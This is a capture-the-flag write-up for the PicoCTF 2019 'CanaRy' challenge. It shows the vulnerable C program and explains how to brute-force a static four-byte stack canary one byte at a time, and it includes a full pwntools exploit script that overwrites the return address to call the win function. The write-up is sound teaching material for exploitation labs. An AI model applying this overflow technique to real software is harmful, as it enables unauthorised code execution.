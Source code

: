 ```yaml
---
title: a. Bypassing a Static Canary
description: Exploiting a buffer overflow attack by bypassing a static canary.
---
```


# Buffer Overflow - Bypassing a Static Canary

## Summary

Exploiting a buffer overflow attack with a static canary.

## Challenge

### Statement

!!! note ""
    Challenge : CanaRy from PicoCTF 2019.

This time we added a canary to detect buffer overflows. Can you still find a way to retrieve the flag from this program.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Answer

In the source code below, the canary is load from a text file and is only four bytes, `#define CANARY_SIZE 4`.

So, we can bruteforce it. The good way to do it, it's by bruteforcing the canary one byte at a time.

!!! example
    padding + 'a' : Stack Smashing Detected -> The canary is NOT starting by the letter 'a'.<br>
    padding + 'b' : Stack Smashing Detected -> The canary is NOT starting by the letter 'b'.<br>
    ...<br>
    padding + 'o' : Ok... Now Where'''s the Flag? -> The canary is starting by the letter 'o'.<br>
    Then, you go on with : 'oa', 'ob', 'oc', ... until you get the four bytes.

Once you retrieve the whole canary, you now can jump to the *win* function.

Let's make a python script with *pwntools* to flag this challenge :

```python linenums="1"
#!/usr/bin/env python3
from string import printable
from pwn import process, p32, context, ELF

context.log_level = "error"

elf = ELF('./vuln')
win_func_addr = p32(elf.symbols['win'])
padding = 32 * "A"


def retrieve_canary():
    canary = ""

    for i in range(4):
        for c in printable.replace("\n", ""):
            p = process("./vuln")
            p.sendlineafter("Buffer?\n> ", str(len(padding + canary + c)))
            p.sendlineafter("Input> ", padding + canary + c)

            data = p.recvline()
            if not "Stack Smashing Detected" in data.decode("utf-8"):
                canary += c
                break

    return canary


if __name__ == "__main__":
    canary = retrieve_canary()
    payload = (padding + canary + "A" * 16).encode() + win_func_addr

    p = process("./vuln")
    p.sendlineafter("Buffer?\n> ", str(len(payload)))
    p.sendlineafter("Input> ", payload)
    p.interactive()
```
